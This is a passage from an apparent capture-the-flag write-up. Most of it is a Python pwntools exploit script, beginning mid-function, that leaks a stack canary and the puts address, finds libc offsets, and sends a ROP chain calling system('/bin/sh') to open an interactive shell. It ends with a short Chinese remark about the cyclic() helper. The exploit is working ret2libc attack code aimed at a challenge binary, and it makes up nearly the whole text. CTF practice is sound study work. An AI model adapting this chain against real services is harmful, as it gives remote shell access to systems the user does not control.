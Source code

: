 ```python
    print(hex(canary))
    return canary
def leak_puts(canary):
    cmd(1)
    payload = padding+p64(canary)+p64(0x0)+p64(pop_rdi_ret)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(main_addr)
    io.sendline(payload)
    cmd(3)
    puts_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    print('puts_addr->',hex(puts_addr))
    return puts_addr
def pwn(puts_addr):
    libc = LibcSearcher('puts',puts_addr)
    lib_offset = puts_addr - libc.dump('puts')
    sys_addr = lib_offset+libc.dump('system')
    bin_sh_addr = lib_offset+libc.dump('str_bin_sh')
    payload = padding+p64(canary)+p64(0x0)+p64(pop_rdi_ret)+p64(bin_sh_addr)+p64(sys_addr)
    cmd(1)
    io.sendline(payload)
    cmd(3)
    io.sendline('cat flag')
    io.interactive()

canary = leak_canry()
puts_addr = leak_puts(canary)
pwn(puts_addr)

```

这里面看佬的wp新学一招，使用`cyclic(lengths)`可以直接得到所需长度的循环字符串


